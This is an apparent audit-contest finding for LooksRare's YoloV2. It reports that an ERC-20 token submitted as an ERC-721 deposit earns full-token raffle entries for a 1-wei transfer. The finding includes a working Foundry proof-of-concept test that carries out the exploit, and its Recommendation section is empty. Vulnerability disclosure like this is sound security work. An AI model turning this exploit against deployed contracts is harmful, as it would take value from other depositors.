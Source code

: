 Pet Cotton Rat

high

# ERC-20 tokens can be used like ERC-721

## Summary
In YoloV2 users can deposit permitted ERC-20 and ERC-721 tokens. In ERC-20 token deposit entry count calculated as:
```solidity
                     uint256 entriesCount = ((price * amount) / (10 ** IERC20(tokenAddress).decimals())) /
                        round.valuePerEntry;
```
In ERC-721 entry count calculated like this:
```solidity 
                    uint256 entriesCount = price / round.valuePerEntry;
```
The problem is a malicious user can use a ERC-20 token like ERC-721 token which `price>round.valuePerEntry` with `singleDeposit.tokenIdsOrAmounts` array as [1]. By this way, user will transfer just 1 wei ERC-20 token but protocol behave like this user transfer nft which id is 1 with this ERC-20 token address's price and give the same amount of entry like transferred 10**decimal token. 
## Vulnerability Detail
The problem is in YoloV2.contract do not have any additional check for given erc-721 is really erc-20 or not .Moreover for ERC-20 and ERC-721 token transfer protocol use same function call signature so there is no revert happen in transfer part.
For ERC-20 part:
```solidity
        (bool status, bytes memory data) = currency.call(abi.encodeCall(IERC20.transferFrom, (from, to, amount)));
```
for ERC-721 part:
```solidity
        (bool status, ) = collection.call(abi.encodeCall(IERC721.transferFrom, (from, to, tokenId)));
```
I have also prepare a test for a poc. Please copy this test to contracts-yolo/test/foundry/Yolo.deposit.t.sol file. And due to Looks price should be high than pricePerEntry change contracts-yolo/test/foundry/TestHelpers.sol line 63 `valuePerEntry: 0.01 ether,` to `valuePerEntry: 0.000001 ether,` 
```solidity
    function testMalicious1() public{
        uint256 looksAmount = 1 ether;
        deal(LOOKS, user4, 2*looksAmount);

        IYoloV2.DepositCalldata[] memory depositsCalldata = new IYoloV2.DepositCalldata[](1);
        depositsCalldata[0].tokenType = IYoloV2.YoloV2__TokenType.ERC20;
        depositsCalldata[0].tokenAddress = LOOKS;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = looksAmount;
        depositsCalldata[0].tokenIdsOrAmounts = amounts;

        _grantApprovalsToTransferManager(user4);

        vm.startPrank(user4);
        IERC20(LOOKS).approve(address(transferManager), looksAmount);


        yolo.deposit(1, depositsCalldata);//We need first deposit normally for calculate price of ERC20 by this way token price will be stored in contract and use that value for future deposits rather than call oracle it is important because if ERC721 oracle used for ERC-20 token, call will be reverted.But after ERC-20 price stored protocol won't call oracle even tokenType will be entered as ERC721. 
        vm.stopPrank();
        IYoloV2.DepositCalldata[] memory deposits2 = new IYoloV2.DepositCalldata[](1);
        deposits2[0].tokenType = IYoloV2.YoloV2__TokenType.ERC721;
        deposits2[0].tokenAddress = LOOKS;
        uint256[] memory amountsMal = new uint256[](1);
        amountsMal[0] = 1;
        deposits2[0].tokenIdsOrAmounts = amountsMal;


        vm.startPrank(user4);
        IERC20(LOOKS).approve(address(transferManager), looksAmount);


        yolo.deposit(1, deposits2);
        vm.stopPrank();
        (,,,,,,,,,IYoloV2.Deposit[] memory deposits )=yolo.getRound(1);
        uint first=deposits[0].currentEntryIndex;
        uint second=deposits[1].currentEntryIndex;
        assertEq(2*first,second);
        
        

    }
```
Most probably Yolo token will not be the token for make this malicious action but i used in test for make it easy. But more valuable ERC-20 tokens can be used which prices are higher than valuePerEntry.
## Impact
A malicious user can deposit 1 ERC-20 token and protocol will act like he deposit 10**decimal token.
## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1096-L1191
## Tool used

Manual Review

## Recommendation
